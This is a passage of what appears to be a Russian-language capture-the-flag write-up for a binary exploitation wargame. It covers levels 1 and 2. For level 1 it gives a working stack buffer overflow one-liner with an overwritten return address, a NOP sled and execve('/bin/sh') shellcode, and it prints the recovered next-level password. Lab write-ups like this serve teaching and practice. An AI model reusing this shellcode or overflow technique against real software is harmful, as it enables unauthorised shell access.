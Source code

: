 ```sh
#     |_____________________________
#                                  ||
#                                 \  /
#                                  \/
#                             0xbffff868
(python -c 'print "A"*76 + "\x68\xf8\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"'; echo "cat /home/user/level2/.pass") | ./level1 
# ||
# \/
# 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
Уровень пройден!
```sh
su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<details><summary> Под этой строкой в развороте исходник и команда для компиляции: </summary></details> 

#
###### [вернуться к содержанию](#content)
<a name="lvl2"></a> 
# level2


![level2](./README/level2.png)

Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary></details>
<details><summary> getfacl level2 </summary></details>
<details><summary> ./level2 </summary></details>
<details><summary> ltrace ./level2 </summary></details>
<details><summary> gdb level2 -> disassemble на список функций </summary></details>
<br>

Из вывода `ltrace` видно, что используются: \
`gets()` - можно переполнить буфер,         \
`strdup()` - в программе выделяется куча (heap), в ней же как и на стеке можно расположить исполняемый код.

<details><summary>main вызывает только p() </summary></details>

<details><summary>анализ disassemble p() в развороте. </summary></details>
